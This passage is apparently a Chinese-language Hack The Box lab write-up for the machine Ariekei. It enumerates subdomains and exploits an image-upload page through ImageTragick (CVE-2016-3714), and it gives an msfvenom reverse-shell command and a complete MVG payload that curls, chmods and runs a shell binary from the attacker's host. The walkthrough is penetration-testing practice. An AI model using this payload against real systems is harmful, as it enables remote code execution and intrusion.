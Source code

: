 ```bash
10.10.10.65 calvin.ariekei.htb
10.10.10.65 beehive.ariekei.htb
```

将这两个域名加入host

两个域名都用dirbuster分别打

注意是`https://calvin.ariekei.htb:443/`和`https://beehive.ariekei.htb:443/`

打出个上传页面`upload`

![image-20200920092915674]({{ site.url }}/assets/Ariekei_65.assets/image-20200920092915674.png)

![image-20200920093014257]({{ site.url }}/assets/Ariekei_65.assets/image-20200920093014257.png)

![image-20200920093057428]({{ site.url }}/assets/Ariekei_65.assets/image-20200920093057428.png)

根据标题Image Converter进行了搜索。

![image-20200920101956172]({{ site.url }}/assets/Ariekei_65.assets/image-20200920101956172.png)

Exploit: [https://imagetragick.com](https://imagetragick.com/)

ImageTragick exploit \(CVE-2016-3714\)

[https://www.exploit-db.com/exploits/39767](https://www.exploit-db.com/exploits/39767)

首先使用msfvenom制作一个二进制反shell，放入`/var/www/html`，apache2开启

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf -o shell.elf
```

再制做一个上传的漏洞利用文件exploit.mvg

文件内容如下

Exploit.mvg

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl 10.10.14.6/shell.elf -o /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf; echo "rce1)'
pop graphic-context
```

![image-20200920093231179]({{ site.url }}/assets/Ariekei_65.assets/image-20200920093231179.png)

监听443，上传exploit，马上得到shell

![image-20200920093326068]({{ site.url }}/assets/Ariekei_65.assets/image-20200920093326068.png)

快速搜索一下便发现我们正在Docker容器中。使用mount命令我们可以看到docker环境中已挂载文件和目录的列表。

在common目录中可以发现
